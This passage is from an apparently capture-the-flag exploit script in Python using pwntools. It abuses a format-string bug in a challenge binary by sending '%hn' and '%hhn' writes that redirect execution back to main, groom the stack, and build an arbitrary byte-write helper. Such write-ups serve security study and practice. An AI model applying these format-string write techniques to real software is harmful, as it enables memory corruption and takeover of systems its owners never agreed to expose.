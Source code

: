 ```py
    # goal is to loop back to main+1, so a new stack is made without pushing rbp

    io.recvuntil(b'pleas give us feedback about this course: ')
    ret_write = (exe.sym['main'] + 1) & 0xffff
    fmt = f'%{ret_write}c%10$hn\0'
    io.send(fmt.encode())
    old_stack = rsp - 0x8
    rsp -= 0x30
    new_stack = rsp - 0x8

    # stack groom
    # keep shifting stack by 0x30 until pointers match except the last byte

    while old_stack & 0xffffffffffffff00 != new_stack & 0xffffffffffffff00:
        io.recvuntil(b'Enter your name: \n')
        io.send(pack(rsp - 0x8))

        io.recvuntil(b'please put your function shellcode here: \n')
        io.send(b'90')

        io.recvuntil(b'pleas give us feedback about this course: ')
        ret_write = (exe.sym['main'] + 1) & 0xffff
        fmt = f'%{ret_write}c%10$hn\0'
        io.send(fmt.encode())
        old_stack = rsp - 0x8
        rsp -= 0x30
        new_stack = rsp - 0x8

    # main+1, new stack
    # begin setting up arbitrary actions

    io.recvuntil(b'Enter your name: \n')
    io.send(pack(rsp - 0x8))

    io.recvuntil(b'please put your function shellcode here: \n')
    io.send(b'90')

    io.recvuntil(b'pleas give us feedback about this course: ')
    ret_write = (exe.sym['main'] + 120) & 0xffff
    write_byte = ((rsp - 0x8) - ret_write) % 0x100
    if write_byte <= 0x0:
        write_byte += 0x100
    fmt = f'%{ret_write}c%10$hn%{write_byte}c%15$hhn'
    io.send(fmt.encode())

    # offset 16 can now overwrite the printf return
    # this frees the name field for arbitrary actions

def write_byte(addr, val):
    io.recvuntil(b'Enter your name: \n')
    io.send(pack(addr))

    io.recvuntil(b'please put your function shellcode here: \n')
    io.send(b'90')

    io.recvuntil(b'pleas give us feedback about this course: ')
    ret_write = (exe.sym['main'] + 120) & 0xffff
    write_byte = (val - ret_write) % 0x100
    if write_byte <= 0x0:
        write_byte += 0x100
    fmt = f'%{ret_write}c%16$hn%{write_byte}c%10$hhn'
    io.send(fmt.encode())

```